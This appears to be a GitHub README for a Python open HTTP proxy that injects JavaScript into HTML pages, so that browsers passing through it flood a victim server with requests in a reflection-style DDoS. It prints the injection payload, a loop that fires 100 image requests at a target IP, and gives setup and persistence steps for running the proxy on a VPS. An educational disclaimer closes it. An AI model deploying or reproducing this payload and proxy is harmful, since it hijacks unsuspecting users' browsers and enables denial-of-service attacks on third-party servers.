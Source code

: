 # 🧠 Reflection DDoS via Open HTTP Proxy

This project is a Python-based open HTTP proxy that injects JavaScript into HTML responses. The injected script forces connected browsers to generate multiple outbound requests to a target server, simulating a reflection-based DDoS attack where unsuspecting clients become amplifiers.

## Features

- Open HTTP proxy on port 8080

- Injects JavaScript payload into HTML responses

- Payload creates multiple image requests to a specified victim IP

- Lightweight — no dependencies beyond the standard library

- Ideal for research, educational labs, or pentesting your own systems


## How It Works

1. Clients connect through the proxy.

2. The proxy forwards HTTP traffic.

3. If the response is HTML, it appends a script that loads 100 image URLs from the victim server.

4. Each client unknowingly reflects traffic toward the target IP.


### Example Payload
```
<script>
  for (let i = 0; i < 100; i++) {
    let img = new Image();
    img.src = "http://198.51.100.77/img" + i + ".jpg";
  }
</script>
```
Replace 198.51.100.77 with your own controlled test server IP.


## Setup

1. Clone the repo.

2. Run the proxy:
```
python3 proxy.py
```

3. On a test browser, configure HTTP proxy to point to your VPS IP on port 8080.

4. Visit an HTTP (non-HTTPS) website.

5. Monitor the target server for incoming traffic.


## Deployment Notes

Use nohup, screen, tmux, or systemd to keep it running.

Ensure port 8080 is open on both UFW and your VPS firewall panel.


## Disclaimer

This tool is provided for educational and testing purposes only. Do not use it on unauthorized networks or systems. You are fully responsible for any misuse.
